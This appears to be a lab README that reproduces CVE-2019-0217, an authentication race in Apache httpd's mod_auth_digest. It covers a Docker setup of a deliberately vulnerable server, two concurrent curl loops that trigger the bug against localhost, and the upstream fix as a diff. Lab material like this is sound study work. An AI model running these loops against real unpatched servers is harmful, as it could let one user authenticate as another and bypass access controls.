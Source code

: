 # CVE-2019-0217

## Description

In Apache HTTP Server 2.4 release 2.4.38 and prior, a race condition in mod_auth_digest when running in a threaded server could allow a user with valid credentials to authenticate using another username, bypassing configured access control restrictions.

## Setup

1. In the [vuln-httpd](../vuln-httpd/) directory, the docker-compose file is present, which will setup the vulnerable Apache HTTP Server.

2. There are a couple important points to note (important, rest is in [httpd.conf](vuln-httpd/httpd.conf)):
    1. The server is running on a threaded server, using the mpm_event module.

    ```apache
        LoadModule mpm_event_module modules/mod_mpm_event.so
        LoadModule cgid_module modules/mod_cgid.so # as it is required by mpm_event
        <IfModule mpm_event_module>
            StartServers             2
            MinSpareThreads         25
            MaxSpareThreads         75
            ThreadLimit             64
            ThreadsPerChild         25
            MaxRequestWorkers      150
            MaxConnectionsPerChild   0
        </IfModule>
        ```

    2. The server is configured to use mod_auth_digest for authentication.

        ```apache
        LoadModule authn_file_module modules/mod_authn_file.so
        LoadModule authn_core_module modules/mod_authn_core.so
        LoadModule authz_host_module modules/mod_authz_host.so
        LoadModule authz_user_module modules/mod_authz_user.so
        LoadModule authz_core_module modules/mod_authz_core.so
        LoadModule auth_digest_module modules/mod_auth_digest.so
        LoadModule alias_module modules/mod_alias.so
        LoadModule mime_module modules/mod_mime.so
        ```

    3. We have setup a protected endpoint, and created two users with username:pasword `test:test` and `test2:test2`

        ```apache
        <Directory "/usr/local/apache2/htdocs/cgi-bin">
            AllowOverride None
            Options +ExecCGI
            AuthType Digest
            AuthName "protected-area"
            AuthDigestProvider file
            AuthUserFile "/usr/local/apache2/conf/digest_passwd"
            Require valid-user
        </Directory>
        ```

3. Build & run the project with docker

    ```bash
    docker-compose up --build
    ```

4. The server is running on `http://localhost:8080`

## Exploit

Basically the exploit is to send two requests simultaneously, and what happens is that sometimes the realmhash of one user is used to authenticate another user.

```bash
while true
do
    curl -u test2:test2 --digest "http://localhost:8080/cgi-bin/mycgi.cgi"
done
```

```bash
while true
do
    curl -u test:test --digest "http://localhost:8080/cgi-bin/mycgi.cgi"
done
```

And sometimes we'll get a 401 error which will indicate that the race condition was triggered.

## Explanation

The bug occured a the hash was not stored per request, this it was susceptible to a race condition. This was reported in the [Apache Bugzilla](https://bz.apache.org/bugzilla/show_bug.cgi?id=63124) and was fixed and backported to 2.4 in 2.4.39.

The patch which fixed this essentially moved the ha1 to digest_header_rec, which is request specific, and thus the vulnerability was fixed.


<details>
<summary>Patch</summary>

```diff
--- httpd-2.4.37/modules/aaa/mod_auth_digest.c	2019-01-29 11:05:15.603614489 +0100
+++ httpd-2.4.37.new/modules/aaa/mod_auth_digest.c	2019-01-29 11:06:24.587102281 +0100
@@ -92,7 +92,6 @@
     int          check_nc;
     const char  *algorithm;
     char        *uri_list;
-    const char  *ha1;
 } digest_config_rec;
 
 
@@ -153,6 +152,7 @@
     apr_time_t            nonce_time;
     enum hdr_sts          auth_hdr_sts;
     int                   needed_auth;
+    const char           *ha1;
     client_entry         *client;
 } digest_header_rec;
 
@@ -1304,7 +1304,7 @@
  */
 
 static authn_status get_hash(request_rec *r, const char *user,
-                             digest_config_rec *conf)
+                             digest_config_rec *conf, char **rethash)
 {
     authn_status auth_result;
     char *password;
@@ -1356,7 +1356,7 @@
     } while (current_provider);
 
     if (auth_result == AUTH_USER_FOUND) {
-        conf->ha1 = password;
+        *rethash = password;
     }
 
     return auth_result;
@@ -1483,25 +1483,24 @@
 
 /* RFC-2069 */
 static const char *old_digest(const request_rec *r,
-                              const digest_header_rec *resp, const char *ha1)
+                              const digest_header_rec *resp)
 {
     const char *ha2;
 
     ha2 = ap_md5(r->pool, (unsigned char *)apr_pstrcat(r->pool, resp->method, ":",
                                                        resp->uri, NULL));
     return ap_md5(r->pool,
-                  (unsigned char *)apr_pstrcat(r->pool, ha1, ":", resp->nonce,
-                                              ":", ha2, NULL));
+                  (unsigned char *)apr_pstrcat(r->pool, resp->ha1, ":",
+                                               resp->nonce, ":", ha2, NULL));
 }
 
 /* RFC-2617 */
 static const char *new_digest(const request_rec *r,
-                              digest_header_rec *resp,
-                              const digest_config_rec *conf)
+                              digest_header_rec *resp)
 {
     const char *ha1, *ha2, *a2;
 
-    ha1 = conf->ha1;
+    ha1 = resp->ha1;
 
     a2 = apr_pstrcat(r->pool, resp->method, ":", resp->uri, NULL);
     ha2 = ap_md5(r->pool, (const unsigned char *)a2);
@@ -1512,6 +1511,7 @@
                                                resp->cnonce, ":",
                                                resp->message_qop, ":", ha2,
                                                NULL));
+
 }
 
 
@@ -1767,7 +1767,7 @@
         return HTTP_UNAUTHORIZED;
     }
 
-    return_code = get_hash(r, r->user, conf);
+    return_code = get_hash(r, r->user, conf, &resp->ha1);
 
     if (return_code == AUTH_USER_NOT_FOUND) {
         ap_log_rerror(APLOG_MARK, APLOG_ERR, 0, r, APLOGNO(01790)
@@ -1797,7 +1797,7 @@
 
     if (resp->message_qop == NULL) {
         /* old (rfc-2069) style digest */
-        if (strcmp(resp->digest, old_digest(r, resp, conf->ha1))) {
+        if (strcmp(resp->digest, old_digest(r, resp))) {
             ap_log_rerror(APLOG_MARK, APLOG_ERR, 0, r, APLOGNO(01792)
                           "user %s: password mismatch: %s", r->user,
                           r->uri);
@@ -1827,7 +1827,7 @@
             return HTTP_UNAUTHORIZED;
         }
 
-        exp_digest = new_digest(r, resp, conf);
+        exp_digest = new_digest(r, resp);
         if (!exp_digest) {
             /* we failed to allocate a client struct */
             return HTTP_INTERNAL_SERVER_ERROR;
@@ -1911,7 +1911,7 @@
 
         /* calculate rspauth attribute
          */
-        ha1 = conf->ha1;
+        ha1 = resp->ha1;
 
         a2 = apr_pstrcat(r->pool, ":", resp->uri, NULL);
         ha2 = ap_md5(r->pool, (const unsigned char *)a2);
```

